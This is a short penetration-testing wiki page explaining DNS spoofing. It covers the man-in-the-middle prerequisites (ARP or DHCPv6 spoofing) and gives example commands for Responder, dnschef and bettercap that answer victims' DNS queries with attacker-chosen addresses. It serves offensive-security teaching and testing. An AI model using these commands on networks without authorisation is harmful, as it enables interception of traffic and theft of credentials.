 # DNS spoofing

## Theory

DNS is not multicast or broadcast like LLMNR, NBT-NS or mDNS. In order to answer DNS requests, attacker first need to receive them. For instance, this can be achieved with [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md). DNS spoofing is basically setting up a DNS server and answering DNS queries obtained through man-in-the-middle technique.

## Practice

{% tabs %}
{% tab title="Responder" %}
[Responder](https://github.com/SpiderLabs/Responder)'s \(Python\) DNS server feature can be used to answer DNS queries.

```bash
responder --interface eth0 
```
{% endtab %}

{% tab title="dnschef" %}
[dnschef](https://github.com/iphelix/dnschef) \(Python\) can be used as a DNS server. 

```bash
dnschef --fakeip 'Pentest_IP_Address' --interface 'Pentest_IP_Address' --port 53 --logfile dnschef.log
```
{% endtab %}

{% tab title="bettercap" %}
In order to spoof DNS requests, [bettercap](https://www.bettercap.org/) \(Go\) can be used. This tool can also be used for the first step of [ARP spoofing](arp-poisoning.md) or [DHCPv6 spoofing](dhcpv6-spoofing.md). 

```bash
set dns.spoof.domains $DOMAIN_FQDN
set dns.spoof.all true
dns.spoof on
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://www.bettercap.org/modules/ethernet/spoofers/dns.spoof/" %}

